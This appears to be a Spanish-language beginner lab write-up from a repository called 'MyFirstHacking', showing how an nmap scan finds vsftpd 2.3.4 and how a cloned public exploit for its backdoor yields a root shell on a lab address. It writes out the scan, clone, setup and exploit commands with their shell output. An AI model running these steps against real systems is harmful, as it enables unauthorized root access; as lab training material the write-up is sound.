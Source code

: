 # MyFirstHacking
## 1. Reconocimiento de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones. 

```bash
nmap -sV -p 21 <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `21/tcp open ftp vsftpd 2.3.4`: El puerto 21 está abierto y ejecuta el servidor FTP vsftpd versión 2.3.4.

La versión específica de `vsftpd` es una pista crucial, ya que `vsftpd 2.3.4` es famosa por tener una vulnerabilidad de puerta trasera (backdoor).

## 2. Explotación del Servicio FTP

La versión `vsftpd 2.3.4` contiene una puerta trasera maliciosa que permite la ejecución remota de comandos. Esto significa que podemos obtener una shell en el sistema objetivo con privilegios elevados.

### 2.1. Búsqueda y Obtención del Exploit

Buscamos un exploit público para esta vulnerabilidad. Un buen recurso es GitHub o Exploit-DB. 

```bash
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit
```

### 2.2. Resolución de Dependencias (PwnTools)

Al intentar ejecutar el exploit de Python, es común encontrarse con errores de módulos no encontrados, como `ModuleNotFoundError: No module named 'pwn'`. Esto significa que la librería `pwntools`, necesaria para el exploit, no está instalada.

Para solucionar esto de forma limpia y evitar conflictos con otras instalaciones de Python, se recomienda usar un entorno virtual (`venv`).

1.  **Crear un entorno virtual:** Esto aísla las dependencias del proyecto del sistema global de Python.

    ```bash
    python3 -m venv ~/venvs/pwnenv
    ```

2.  **Activar el entorno virtual:** Esto asegura que cualquier paquete que instalemos se guarde dentro de este entorno y no afecte a otras instalaciones de Python.

    ```bash
    source ~/venvs/pwnenv/bin/activate
    ```

3.  **Instalar `pwntools`:** Ahora, instalamos la librería `pwntools` dentro del entorno virtual activo.

    ```bash
    pip install pwntools
    ```

Una vez instalada, el exploit debería poder ejecutarse sin problemas de dependencias.

### 2.3. Ejecución del Exploit

```bash
python3 exploit.py <IP_DEL_OBJETIVO>
```

**Salida del Exploit:**

El exploit se conecta al servicio FTP, activa la puerta trasera y nos proporciona una shell remota.

```

[+] Got Shell!!!

[+] Opening connection to 172.17.0.2 on port 21: Done

[*] Closed connection to 172.17.0.2 port 21

[+] Opening connection to 172.17.0.2 on port 6200: Done

[*] Switching to interactive mode

```

### 2.4. Verificación de Acceso

El comando `whoami` confirma que hemos obtenido una shell con privilegios de `root`.

```bash
whoami
# root
```
